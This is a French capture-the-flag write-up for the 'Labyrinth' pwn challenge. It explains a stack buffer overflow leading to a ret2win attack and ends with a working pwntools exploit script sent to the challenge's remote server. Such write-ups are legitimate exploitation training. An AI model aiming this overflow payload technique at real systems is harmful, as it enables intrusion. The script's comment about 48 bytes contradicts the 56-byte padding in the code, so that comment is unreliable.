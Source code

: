 # Labyrinth - Nerumir

- On me présente un service distant et j'ai le binaire téléchargeable pour l'analyser. Lorsque je lance le binaire, on me propose un choix entre `100` portes, et quand j'en choisis une, je perds.

- J'examine le binaire et puis je renomme les variables et différents objets pour y voir plus clair, je commente également le code (premier screen) :

![programme](data/programme.webp) 

> [!TIP]
> On peut alors voir qu'en choisissant la porte `069`, alors on à le droit de ne pas échouer. Je le fais donc et j'observe qu'il faut encore jouer. Avant y'a un `malloc`, pour le premier prompt, mais aucun débordement de tampon (`16` contre `5`), sinon ça aurait été un `heap overflow` car les `malloc` allouent de la mémoire dans le `heap`.

- J'observe qu'effectivement sur la section suivante, il y a un `overflow` de type `stack`, sur la variable que j'ai renommée `second_user_input`. Il y a la `libc`, malheureusement un `FULL RELRO` donc pas de `ret2dlresolve`. De toute façon, le but n'est pas de spawn un `shell` car je trouve une fonction `escape_plan` qui me permet de lire le flag :

![escape](data/escape.webp) 

- Je teste la petite `stack overflow` :

![overflow](data/overflow.webp) 

- Je trouve un offset de `56`, donc après le 56eme octet, on commence à overwrite l'adresse de retour de la fonction `main`. Donc je vais la remplacer par l'adresse de la fonction `escape_plan` afin d'afficher le flag et gagner. C'est une attaque de type `ret2win`. Je trouve l'adresse de la fonction `escape_plan` dans la table de symboles, tout simplement. Facile car aucun `ASLR` (`NO PIE` sur le `checksec`).

![address](data/address.webp) 

> [!WARNING]
> Je galère à mort pour capter qu'en fait, des fois, mettre l'adresse de la fonction à executer, indiquée dans la table des symboles ne fonctionne pas et qu'il faut ajouter quelques octets (généralement un ou deux) pour déclancher les instructions de la fonction. Je ne connais exactement la raison mais c'est un décalage que j'ai été amené à devoir faire plusieurs fois. 

Voici mon script final : 

```python
#!/usr/bin/python
from pwn import *

# Set up the process and context for the binary
binary_path = './labyrinth'
p = remote('94.237.63.129','55966')
context.binary = binary_path

# Create the payload
# The buffer size is 56 bytes, and the saved RBP is 8 bytes. Hence, we need 48 bytes before we overwrite the return address.
payload = b'A' * 56 + p64(context.binary.symbols['escape_plan'] + 1)

# Respond with the right door number
response = p.recvuntil(b'>>')
p.sendline(b'069')
response = p.recvuntil(b'>>')

# Send the payload for ret2win
p.sendline(payload)

# Print leaked flag
response = p.recvrepeat(10)
print(response.decode())
```
